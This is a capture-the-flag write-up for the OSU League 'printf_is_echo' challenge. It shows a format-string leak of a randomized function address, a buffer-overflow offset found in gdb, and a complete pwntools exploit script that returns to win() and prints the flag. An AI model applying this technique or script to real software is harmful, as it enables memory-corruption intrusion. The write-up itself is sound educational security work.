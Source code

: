 ```yaml
---
title: "OSU League 2020/2021 - printf_is_echo Writeup"
date: 2020-11-04
draft: false
description: ""
tags: ["ctf"]
---
```

## Writeup
Oh boy. We got by the title what looks to be some sort of challenge involving printf.  Let's run the binary and take a look.

```
did you know the unix tool echo can be implemented with two lines of C? I'll echo some bytes, try it!
boop
boop

I used ASLR (with PIE), so the address of the win function is randomized!
I'll give you the last three hex digits of the address as a hint: 0x79a
Type "I give up" to acknowledge that this binary is unhackable
I give up
```

Uh oh, so ASLR is enabled.  This means we don't know what the address of the win function will be since it changes every time.  If only there was a way to leak addresses from the stack, we might be able to get something.  Well, maybe we can.  

If the `printf` is used in an insecure way, directly passing user controled variables as arguments to the funtion, then we can make really bad things happen.

For example.  What would happen if we have a printf function like this:
`printf(userinput);`
and we passed in `%p`?

Well, it will treat the `%p` as an argument and print the pointer data on the stack.  Let's try it out with the program.

```
%p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p
0x7ffdc72101a0, 0x7fb27237f8d0, 0xf, (nil), 0x7fb2725934c0, 0x202c7025202c7025, 0x202c7025202c7025, 0x202c7025202c7025, 0x202c7025202c7025, 0x202c7025202c7025, 0x202c7025202c7025, 0x202c7025202c7025, 0x202c7025202c7025, 0x202c7025202c7025, (nil), 0x5646bc24d79a, 0x5646bc24d690, 0x7ffdc7210210,
I used ASLR (with PIE), so the address of the win function is randomized!
I'll give you the last three hex digits of the address as a hint: 0x79a
```

Well sweet, looks like we got some leaked addresses.  Not only that, but there is an address in the 16th spot that ends in `0x79a`. That's our win function!!

We can make this a bit cleaner by just inputing `%16$p`.  Let's verify this works and we get the right address.

```
did you know the unix tool echo can be implemented with two lines of C? I'll echo some bytes, try it!
%16$p
0x557959a5079a

I used ASLR (with PIE), so the address of the win function is randomized!
I'll give you the last three hex digits of the address as a hint: 0x79a
Type "I give up" to acknowledge that this binary is unhackable
```

Awesome.  Next step now that we have the win function is to try to get our program to return to it. This will probably be accomplised via a buffer overflow attack on the second input option. And after messing around a bit, I was able to find that the buffer we had was going to be 104 bytes before we started overwriting the instruction pointer:

```
gdb-peda$ r
Starting program: /home/perchik/CTF/osuleague/week4/printf_is_echo
did you know the unix tool echo can be implemented with two lines of C? I'll echo some bytes, try it!
boop
boop

I used ASLR (with PIE), so the address of the win function is randomized!
I'll give you the last three hex digits of the address as a hint: 0x79a
Type "I give up" to acknowledge that this binary is unhackable
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0xf
RDX: 0x7ffff7dd18d0 --> 0x0
RSI: 0x7fffffffde80 ('A' <repeats 96 times>, "BBBBBBBB\n")
RDI: 0x7fffffffde81 ('A' <repeats 95 times>, "BBBBBBBB\n")
RBP: 0x4242424242424242 ('BBBBBBBB')
```

So, we have a way of getting the address of win(), we know our padding size. We can now build an exploit!

```python
from pwn import *
import os, sys
#io = process('./printf_is_echo')
io = remote('ctf.ropcity.com', 31338)

context(arch = "amd64")

io.recvuntil("try it!\n")

printf = "%16$p"

io.sendline(printf)

win = int(io.recvline(), 16)
log.info(win)

padding = b'A'*104
io.recvuntil('unhackable')
payload = padding + p64(win)

io.sendline(payload)
io.interactive()
```

And after running it we get the flag!

```
[+] Opening connection to ctf.ropcity.com on port 31338: Done
[*] 94681416755098
[*] Switching to interactive mode

osu{F0rMa7_$tRing_1s_FUN}
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x03
[*] Got EOF while reading in interactive
```
Nice! That was a fun challenged and learned a lot about how format string vulns work!